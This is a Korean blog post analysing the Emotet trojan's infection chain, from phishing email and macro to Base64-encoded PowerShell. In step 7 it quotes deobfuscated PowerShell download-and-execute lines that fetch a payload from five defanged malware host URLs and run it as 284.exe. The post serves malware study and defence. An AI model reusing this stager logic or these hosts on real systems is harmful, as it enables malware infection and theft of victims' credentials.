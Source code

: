 ```yaml
---
date: 2022-10-13T04:00:00
draft: false
title: "Emotet 악성코드 분석"
description: 
featured_image: "cdn/respond/emotet-malware-analysis-1.png"
tags: ["Emotet", "트로이 목마", "PowerShell", "악성코드", "사이버 보안"]
---
```


## Emotet(이모텟)?

- 주로 이메일을 통해 확산되는 트로이 목마
- 합법적인 이메일처럼 보이도록 가장하여 사용자가 악성 파일을 클릭하도록 유도
- 트로이 목마를 업데이트하고 기본적으로 시스템에 액세스한 다음 운영자가 추가 페이로드를 다운로드할 수 있도록 하는 악성코드 유형인 "로더"로 작동하도록 구성
- 감염된 호스트에서 은행 자격 증명을 훔치거나, 피해자들로부터 돈을 갈취하는 것을 목표로 동작
<!--more-->
<br>

![emotet-malware-analysis](https://blog.plura.io/cdn/respond/emotet-malware-analysis-1.png)

## Emotet 실행/분석

### 1. 사회 공학 기법을 이용해 공격 대상에게 메일 발송
![02](https://github.com/user-attachments/assets/5dae9811-e676-4697-b7ee-a84f229d9b2b)
<br><br>


### 2. 공격 대상은 의심없이 첨부 파일 다운로드
![03](https://github.com/user-attachments/assets/e647b197-5a0b-47da-abd9-f13709fc17fc)
<br><br>


### 3. 파일 Open. 매크로 실행을 위해 'Enable Content' 클릭
![04](https://github.com/user-attachments/assets/7f4d218d-10d8-4d50-a008-31c9ee7e304f)
<br><br>


### 4. Base64 인코딩된 코드 PowerShell 프로세스로 실행 시도
![05](https://github.com/user-attachments/assets/80f38782-331a-49e3-aebc-9ba41e7a2c36)
<br><br>


### 5. PowerShell 명령어에 의해 conhost 실행
![06](https://github.com/user-attachments/assets/86c4c82b-baae-45af-b68b-e9cea82786aa)

![07](https://github.com/user-attachments/assets/ad597df8-9608-4995-9dfa-b6b38545088e)
<br><br>


### 6. PowerShell 스크립트 코드 실행
![08](https://github.com/user-attachments/assets/54c535af-f81f-44d5-870e-d7d9e5de3d84)
<br><br>


### 7. PowerShell 스크립트 코드 분석
![09](https://github.com/user-attachments/assets/e875c2f5-5371-41d6-97ea-f31777ccc789)
<br>

1) 아래 URL 에서 파일 다운로드
new-object NeT.wEBClIEnt DOwNlOaDfiLe(hxxp://blockchainjoblist.com/wp-admin/014080/)
new-object NeT.wEBClIEnt DOwNlOaDfiLe(hxxps://womenempowermentpakistan.com/wp-admin/paba5q52/)
new-object NeT.wEBClIEnt DOwNlOaDfiLe(hxxps://atnimanvilla.com/wp-content/073735/)
new-object NeT.wEBClIEnt DOwNlOaDfiLe(hxxps://yeuquynhnhai.com/upload/41830/)
new-object NeT.wEBClIEnt DOwNlOaDfiLe(hxxps://deepikarai.com/js/4bzs6/)

2) 아래 경로에 파일 저장
$env:userprofile\284.exe

3) 23931 bytes 이상이면 실행
(Get-Item $env:userprofile\284.exe).LeNgTh -ge 23931

<br>

### 8. 사용자 폴더에 파일 생성
![010](https://github.com/user-attachments/assets/c0522f7e-2c7c-4751-90c5-a3780de0902b)

![011](https://github.com/user-attachments/assets/3bf9893f-d832-4331-bc2b-5be171e84f9e)

![012](https://github.com/user-attachments/assets/773bc501-4236-4bbc-9766-510595828a77)
<br>

## [참조]
- https://en.wikipedia.org/wiki/Emotet<br>
- https://www.malwarebytes.com/emotet


